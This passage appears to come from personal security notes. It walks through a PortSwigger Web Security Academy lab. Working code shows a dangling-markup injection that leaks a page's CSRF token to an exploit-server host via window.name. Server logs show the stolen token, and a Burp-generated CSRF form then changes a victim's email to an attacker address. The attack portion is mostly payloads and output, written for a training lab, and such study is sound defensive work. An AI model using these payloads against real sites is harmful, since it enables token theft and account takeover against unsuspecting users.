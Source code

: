 XSS can't be obtained but we can leak pages data, including a CSRF token, if we trick the user clicking the link:
```html
<script>
if(window.name) {
	// when imported inside the page using the XSS, it leaks the data contained inside the <base target=""> tag
	new Image().src='//exploit-0a38001803df086284e31d1601610050.exploit-server.net?'+encodeURIComponent(window.name);
	} else {
	// injects the XSS in the email filed
	location = 'https://0af200580399085f84441ea5003900cd.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-0a38001803df086284e31d1601610050.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>

<!-- resultin base tag after the XSS -->
<base target='">
<input required type="hidden" name="csrf" value="agoOJ9L0emaXgmnfSaF1wRyr5JX2Mvld">
<button class='button' type='submit'>
```
Logs:
```
...
10.0.3.8        2023-07-01 11:11:40 +0000 "GET /exploit HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
10.0.3.8        2023-07-01 11:11:40 +0000 "GET /?%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20required%20type%3D%22hidden%22%20name%3D%22csrf%22%20value%3D%22Q2O4K6Q9aPLnhkCn6CFbXghsBbdSfhak%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20class%3D HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36"
...
```

Finally, we can conduct out [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md) and change victim's email:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0af200580399085f84441ea5003900cd.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="Q2O4K6Q9aPLnhkCn6CFbXghsBbdSfhak" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```


[^css-k]: https://github.com/maxchehab/CSS-Keylogging
[^video]: [The Curse of Cross-Origin Stylesheets - Web Security Research](https://youtu.be/bMPAXsgWNAc?si=fsmfIXeraW_2bDOM&t=317)
[^CSP-JSONP]: [Riding the Waves of API Versioning Unmasking a Stored XSS Vulnerability, CSP Bypass Using YouTube OEmbed](../../Readwise/Articles/SMHTahsin33%20-%20Riding%20the%20Waves%20of%20API%20Versioning%20Unmasking%20a%20Stored%20XSS%20Vulnerability,%20CSP%20Bypass%20Using%20YouTube%20OEmbed.md), SMHTahsin33
[^1]: https://portswigger.net/web-security/cross-site-scripting/preventing